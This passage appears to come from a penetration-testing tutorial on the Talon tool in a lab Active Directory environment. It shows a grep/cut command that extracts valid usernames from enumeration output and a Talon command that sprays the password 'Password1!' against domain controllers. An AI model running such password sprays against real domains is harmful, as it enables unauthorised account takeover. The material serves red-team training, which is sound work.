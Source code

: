         <img src="/assets/images/misc/linkedin_talon/talonenum.png" />
</p>

As you can see it detected the valid users from our listing. We can generate a new list of valid users with the following bash command:
```bash
grep "User Exist" <output_file> | cut -d '\' -f 2 | cut -d ":" -f 1
```

#### Spraying
With our generated list of valid users, let's run a single password spray with `Password1!`:
```go
./Talon -D <domain> -Userfile <username_file> -Hostfile <DC_list> -O <output_file> -sleep 1 -P 'Password1!'
```

And in the lab environment:
<p align="center">
        <img src="/assets/images/misc/linkedin_talon/pwdspray.png" />
</p>

